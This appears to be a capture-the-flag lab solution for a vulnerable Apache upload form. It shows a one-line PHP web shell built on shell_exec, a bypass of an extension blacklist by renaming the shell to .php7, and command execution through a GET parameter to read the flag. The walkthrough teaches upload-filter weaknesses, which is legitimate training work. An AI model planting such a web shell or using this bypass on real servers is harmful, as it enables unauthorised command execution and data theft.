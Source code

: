 ﻿![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Apache V </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=201>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Infrastructure Attacks : Apache </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

The target server has not been properly secured against arbitrary file upload and execution vulnerability. The administrator has used a blacklisting approach but forgotten to add other executable file extensions to this list. This example also proves why blacklisting is not considered a good security measure. 

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag! 

**Solution: ![ref2]**

**Step 1:** Inspect the web application. 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/ 

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.004.jpeg)

**Step 2:** Create a simple web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.005.png)

**Step 3:** Upload the webshell to the web server. ![ref2]

Click on the browse button and upload the php script. 

![ref1]

**Step 4:** Click on the hyperlink generated after uploading the php script  ![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.006.jpeg)

![ref3]

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php ![ref2]
![ref1]

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.008.png)

The uploaded php script is treated as a data file. 

**Step 5:** Make a copy of the php webshell and save it with filename “shell.php7” 

**Commands:**  

cp ~/Downloads/shell.php ~/Downloads/shell.php7 cat ~/Downloads/shell.php7 

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.009.png)

**Step 6:** Navigate to the homepage of the web application and upload the webshell to the web server. 

**URL:**  http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com Click on the browse button and upload the php script. ![ref2]

**Step 7:** Click on the hyperlink generated after uploading the php script  ![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.010.jpeg)

![ref3]


![ref1]

No output is returned since the cmd parameter was not passed. ![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.011.png)**Step 8:** Execute system commands through “cmd” GET parameter. **Command:** whoami 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=whoa mi** 

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.012.png)

**Step 9:** Enumerate files stored on the web server. **Command:** pwd 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=pwd  

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.013.png)

**Command:** ls -l /app/ ![ref2]


![ref1]

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=ls+-l+ /app 

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.014.jpeg)

The flag location is revealed. 

**Step 10:** Retrieve the flag 

**Command:** cat /app/5bcb2ead4f308eed-flag 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=cat+/ app/5bcb2ead4f308eed-flag 

![](Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.015.png)

**Flag:** 314865581322ae4b300fff127331690c 

**References:  ![ref2]**

1\. Apache httpd (<https://httpd.apache.org/>)  

[ref1]: Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.002.png
[ref2]: Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.003.png
[ref3]: Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.007.jpeg
